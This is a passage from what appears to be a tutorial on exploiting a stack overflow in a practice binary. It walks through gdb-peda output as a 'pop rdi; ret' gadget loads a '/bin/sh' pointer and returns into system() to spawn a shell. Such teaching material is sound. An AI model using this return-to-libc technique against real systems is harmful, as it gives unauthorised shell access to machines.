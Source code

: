 ```
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
gdb-peda$ 
```

We can see that all of our final payload is located on the stack.  
When executing the `ret` instruction the next value on the stack is popped and put into `RIP`.  
This will be our `pop rdi; ret` gadget.  
The top of the stack, the `RSP`, is changed accordingly to point to the next value on the stack, which is the pointer to our shell `/bin/sh` as well.  

```
[----------------------------------registers-----------------------------------]
[...]
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7ffdc2a904b0 --> 0x7f6c34de1d57 --> 0x68732f6e69622f ('/bin/sh')
RIP: 0x400903 (<__libc_csu_init+99>:	pop    rdi)
[...]
[-------------------------------------code-------------------------------------]
=> 0x400903 <__libc_csu_init+99>:	pop    rdi
   0x400904 <__libc_csu_init+100>:	ret    
   0x400905:	nop
   0x400906:	nop    WORD PTR cs:[rax+rax*1+0x0]
[------------------------------------stack-------------------------------------]
0000| 0x7ffdc2a904b0 --> 0x7f6c34de1d57 --> 0x68732f6e69622f ('/bin/sh')
0008| 0x7ffdc2a904b8 --> 0x7f6c34c9a390 (<__libc_system>:	test   rdi,rdi)
0016| 0x7ffdc2a904c0 --> 0x40080a (<trustMeIAmAnEngineer+70>:	je     0x400811 <trustMeIAmAnEngineer+77>)
0024| 0x7ffdc2a904c8 --> 0x7f6c34c75830 (<__libc_start_main+240>:	mov    edi,eax)
0032| 0x7ffdc2a904d0 --> 0x0 
0040| 0x7ffdc2a904d8 --> 0x7ffdc2a905a8 --> 0x7ffdc2a92109 ("./binaries/vuln_x64")
0048| 0x7ffdc2a904e0 --> 0x135244ca0 
0056| 0x7ffdc2a904e8 --> 0x400813 (<main>:	push   rbp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
gdb-peda$ 
```


Let's execute `pop rdi; ret` now, which will put the current top of the stack into `RDI`, which is our shell pointer.  
Since our chosen gadget ends with a `ret` statment it's next in the execution flow.  
It will continue execution with the next instruction `RSP` points to, which is our `system()` call!


```
[----------------------------------registers-----------------------------------]
[...]
RDI: 0x7f6c34de1d57 --> 0x68732f6e69622f ('/bin/sh')
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7ffdc2a904b8 --> 0x7f6c34c9a390 (<__libc_system>:	test   rdi,rdi)
RIP: 0x400904 (<__libc_csu_init+100>:	ret)
[...]
[-------------------------------------code-------------------------------------]
   0x4008fe <__libc_csu_init+94>:	pop    r13
   0x400900 <__libc_csu_init+96>:	pop    r14
   0x400902 <__libc_csu_init+98>:	pop    r15
=> 0x400904 <__libc_csu_init+100>:	ret    
   0x400905:	nop
   0x400906:	nop    WORD PTR cs:[rax+rax*1+0x0]
   0x400910 <__libc_csu_fini>:	repz ret 
   0x400912:	add    BYTE PTR [rax],al
[------------------------------------stack-------------------------------------]
0000| 0x7ffdc2a904b8 --> 0x7f6c34c9a390 (<__libc_system>:	test   rdi,rdi)
0008| 0x7ffdc2a904c0 --> 0x40080a (<trustMeIAmAnEngineer+70>:	je     0x400811 <trustMeIAmAnEngineer+77>)
```